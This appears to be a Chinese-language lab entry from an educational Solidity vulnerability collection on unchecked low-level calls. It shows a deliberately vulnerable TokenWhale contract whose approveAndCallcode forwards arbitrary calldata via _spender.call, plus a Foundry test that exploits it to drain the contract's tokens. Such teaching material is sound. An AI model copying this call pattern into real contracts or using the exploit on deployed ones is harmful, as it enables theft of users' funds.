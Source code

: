 # 未经检查的外部调用——调用注入  
[UnsafeCall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/UnsafeCall.sol)  
**名称：**  不安全的调用漏洞  
**描述：**  
在 TokenWhale 合约的 approveAndCallcode 函数中。该漏洞允许
使用任意数据执行任意的调用，从而导致潜在安全风险和意外后果。
该函数使用低级调用 (_spender.call(_extraData))执行来自 _spender 地址的代码，而不对所提供的 _extraData 进行任何验证或检查。  
这可能导致意外行为、重入攻击或未经授权的操作。

本练习是关于对合约的低级调用，其中不检查输入和返回值  
如果调用数据是可控的，就很容易导致任意函数的执行。  



**缓解建议：**   
应该尽可能的避免使用低级别的“调用”。  
**参考**  
https://blog.li.fi/20th-march-the-exploit-e9e1c5c03eb9  


**TokenWhale 合约：**  
```
contract TokenWhale {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000; // 1 mil
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }

    /* 批准后调用合约代码*/
    function approveAndCallcode(
        address _spender,
        uint256 _value,
        bytes memory _extraData
    ) public {
        allowance[msg.sender][_spender] = _value;

        bool success;
        //有漏洞的调用执行不安全的代码 
        (success, ) = _spender.call(_extraData);
        console.log("success:", success);
    }
}
```  


**如何测试：**  
forge test --contracts src/test/UnsafeCall.sol-vvvv  
```
// 测试不安全调用的函数
function testUnsafeCall() public {
    // 设置环境变量
    address alice = vm.addr(1);
    TokenWhaleContract = new TokenWhale();
    TokenWhaleContract.TokenWhaleDeploy(address(TokenWhaleContract));

    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );

    // Alice试图执行不安全的调用以从TokenWhaleContract转移资产
    console.log(
        "Alice tries to perform unsafe call to transfer asset from TokenWhaleContract"
    );

    // 使用 vm.prank()函数更改 msg.sender
    vm.prank(alice);

    // Alice 使用表示对传递函数的调用的编码数据调用 approveAndCallcode函数
    TokenWhaleContract.approveAndCallcode(
        address(TokenWhaleContract),
        0x1337, // 不影响漏洞利用
        abi.encodeWithSignature(
            "transfer(address,uint256)",
            address(alice),
            1000
        )
    );

    // 检查漏洞利用是否成功
    assertEq(TokenWhaleContract.balanceOf(address(alice)), 1000);
    console.log("Exploit completed");

    // 记录最终余额
    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );
    console.log(
        "Alice balance:",
        TokenWhaleContract.balanceOf(address(alice))
    );
}

// 接收以太币的回退函数
receive() external payable {}
```  
**红色框：** 攻击成功，清空了TokenWhale合约。  
![Alt text](image-7.png)
